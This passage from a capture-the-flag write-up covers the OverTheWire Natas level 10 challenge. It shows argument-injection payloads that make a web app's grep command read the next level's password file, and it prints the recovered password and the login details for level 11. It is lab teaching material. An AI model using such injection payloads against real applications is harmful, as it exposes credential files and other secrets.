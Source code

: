 They have filtered all the special characters so that we have to find another way. I have research for the grep usage and how it is normally used:

```shell
grep [OPTION...] PATTERNS [FILE...]
```

So, I want to run the command in order to search for characters in the file password for natas11:

```shell
grep -i a /etc/natas_webpass/natas11
```

So, the payload I will use for injection is:

```
a /etc/natas_webpass/natas11
```

or

```shell
.* /etc/natas_webpass/natas11
```

Here is the result:

![Flag for Natas 10](images/Answer-10.png)

So, the flag I get from the above image is:

```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

## Natas 11

The details to login the natas 11 are:

```
Username: natas11
Password: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
URL:      http://natas11.natas.labs.overthewire.org
```
